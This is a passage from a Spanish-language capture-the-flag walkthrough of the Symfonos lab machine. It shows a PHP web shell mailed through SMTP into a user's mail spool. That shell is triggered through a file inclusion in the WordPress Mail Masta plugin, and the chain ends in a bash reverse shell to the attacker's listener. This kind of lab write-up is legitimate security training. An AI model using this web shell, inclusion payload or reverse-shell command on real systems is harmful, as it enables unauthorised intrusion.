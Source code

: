 Veamos la web:

![](/imagenes/Symfonos/5.png)

Todo perfecto, vamos a enviar código php malicioso:

```
nc 172.26.75.241 25
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
MAIL FROM: grafis
250 2.1.0 Ok
RCPT TO: helios
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php                        
echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>

.
250 2.0.0 Ok: queued as 41C10406D7
```

Si vemos la web, no veremos nada, eso indica que nos debe estar interpretando el código, por lo tanto, vamos a intentar indicarle un valor para la variable **cmd**, en este caso debemos utilizar el operador **&**:
```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/spool/mail/helios&cmd=id
```

![](/imagenes/Symfonos/6.png)

Efectivamente, tenemos **RCE**, vamos a ganar acceso a la máquina:

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/spool/mail/helios&cmd=bash -c 'bash -i >%26 /dev/tcp/172.26.70.49/1234 0>%261'
```

Enviamos y vamos a nuestro listener:
```
 nc -nvlp 1234
listening on [any] 1234 ...
connect to [172.26.70.49] from (UNKNOWN) [172.26.75.241] 47020
bash: cannot set terminal process group (613): Inappropriate ioctl for device
bash: no job control in this shell
<h3l105/wp-content/plugins/mail-masta/inc/campaign$ whoami
whoami
helios
```
